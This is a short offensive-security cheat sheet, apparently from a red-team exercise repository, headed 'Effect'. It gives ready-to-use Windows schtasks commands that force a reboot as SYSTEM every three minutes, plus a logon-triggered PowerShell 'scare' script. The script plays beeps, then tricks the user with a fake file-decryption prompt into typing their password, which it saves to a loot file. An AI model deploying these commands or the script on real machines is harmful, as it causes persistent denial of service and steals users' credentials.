 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#rolling-reboot">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /tn "Scare" /tr "powershell -c 'C:\scare.ps1'" /sc onlogon /it
schtasks.exe /create /tn "Effect" /tr "shutdown /r /t 000" /ru "SYSTEM" /sc minute /mo 3  
```
```pwsh
# contents of scare.ps1 PowerShell script (plays Imperial March from Star Wars)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
Write-Host "[+] Donovia Rulez!"
Read-Host "[+] Decrypt files with $($env:USERNAME) password" | Out-File -Append C:\Users\Public\loot.txt
Start-Sleep -Seconds 5
```
